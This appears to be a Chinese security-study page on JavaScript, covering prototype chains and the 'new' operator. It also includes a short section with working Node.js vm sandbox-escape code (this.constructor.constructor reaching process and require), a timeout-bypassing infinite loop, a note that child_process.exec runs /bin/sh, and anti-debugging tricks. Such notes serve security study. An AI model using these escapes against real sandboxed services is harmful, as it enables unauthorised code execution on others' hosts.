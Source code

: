 JavaScript
================================

原型链
-------------------------------

显式原型和隐式原型
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
JavaScript的原型分为显式原型（explicit prototype property）和隐式原型（implicit prototype link）。

其中显式原型指prototype，是函数的一个属性，这个属性是一个指针，指向一个对象，显示修改对象的原型的属性，只有函数才有该属性

隐式原型指JavaScript中任意对象都有的内置属性prototype。在ES5之前没有标准的方法访问这个内置属性，但是大多数浏览器都支持通过 ``__proto__`` 来访问。ES5中有了对于这个内置属性标准的Get方法 ``Object.getPrototypeOf()`` 。

隐式原型指向创建这个对象的函数(constructor)的prototype， ``__proto__`` 指向的是当前对象的原型对象，而prototype指向的，是以当前函数作为构造函数构造出来的对象的原型对象。

显式原型的作用用来实现基于原型的继承与属性的共享。
隐式原型的用于构成原型链，同样用于实现基于原型的继承。举个例子，当我们访问obj这个对象中的x属性时，如果在obj中找不到，那么就会沿着 ``__proto__`` 依次查找。

::

  Note: Object.prototype 这个对象是个例外，它的__proto__值为null

new 的过程
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

.. code-block:: javascript

  var Person = function(){};
  var p = new Person();

new的过程拆分成以下三步：
- ``var p={};`` 初始化一个对象p
- ``p.__proto__ = Person.prototype;``
- ``Person.call(p);`` 构造p，也可以称之为初始化p

关键在于第二步，我们来证明一下：

.. code-block:: javascript

  var Person = function(){};
  var p = new Person();
  alert(p.__proto__ === Person.prototype);

这段代码会返回true。说明我们步骤2是正确的。

示例
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

.. code-block:: javascript

  var Person = function(){};
  Person.prototype.sayName = function() {
      alert("My Name is Jacky");
  };

  Person.prototype.age = 27;
  var p = new Person();
  p.sayName();

p是一个引用指向Person的对象。我们在Person的原型上定义了一个sayName方法和age属性，当我们执行p.age时，会先在this的内部查找（也就是构造函数内部），如果没有找到然后再沿着原型链向上追溯。

这里的向上追溯是怎么向上的呢？这里就要使用 ``__proto__`` 属性来链接到原型（也就是Person.prototype）进行查找。最终在原型上找到了age属性。


沙箱逃逸
-------------------------------

exp

.. code-block:: javascript

    const sandbox = {};
    const whatIsThis = vm.runInNewContext(`
        const ForeignObject = this.constructor;
        const ForeignFunction = ForeignObject.constructor;
        const process = ForeignFunction("return process")();
        const require = process.mainModule.require;
        require("fs");
    `, sandbox);

.. code-block:: javascript

    vm.runInNewContext(
      'Promise.resolve().then(()=>{while(1)console.log("foo", Date.now());}); while(1)console.log(Date.now())',
      {console:{log(){console.log.apply(console,arguments);}}},
      {timeout:5}
    );


命令执行
-------------------------------

Node.js中child_process.exec命令调用的是/bin/sh，故可以直接使用该命令执行shell


反调试技巧
-------------------------------

- 函数重定义 ``console.log = function(a){}``
- 定时断点 ``setInterval(function(){debugger}, 1000);``


参考链接
-------------------------------
- `JavaScript反调试技巧 <http://www.freebuf.com/articles/system/163579.html>`_
- `ECMAScript Language Specification <http://www.ecma-international.org/ecma-262/5.1/#sec-15.3.4.5>`_
- `js prototype <https://www.zhihu.com/question/34183746?sort=created>`_
